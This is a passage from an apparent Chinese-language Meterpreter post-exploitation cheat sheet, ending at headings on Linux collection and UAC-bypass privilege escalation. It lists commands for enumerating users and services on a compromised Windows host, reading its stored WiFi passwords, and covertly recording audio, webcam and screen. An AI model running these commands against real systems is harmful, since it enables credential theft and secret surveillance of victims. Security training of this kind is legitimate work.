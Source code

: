 ```shell
shell
net user
net user /domain
```

##### 1.3.1.3 收集当前用户信息

```shell
shell
whoami /all
```

##### 1.3.1.4 收集主机所运行的服务

```shell
 run service_manager -l
```

##### 1.3.1.5 查询主机所在地理位置

```shell
run post/multi/gather/wlan_geolocate
```

##### 1.3.1.6 查询arp信息

```shell
arp
```

##### 1.3.1.7 枚举用户

```shell
run post/windows/gather/enum_computers
```

##### 1.3.1.8 读取目标主机的WIFI密码

```shell
run post/windows/wlan/wlan_profile
```

##### 1.3.1.9 监视

```shell
run vnc
run sound_recorder
run webcam
```

#### 1.3.2 meterpreter 收集linux主机信息

### 1.4 meterpreter 提升权限常用模块

#### 1.4.1 Windows提权

##### 1.4.1.1 绕过UAC进行提权
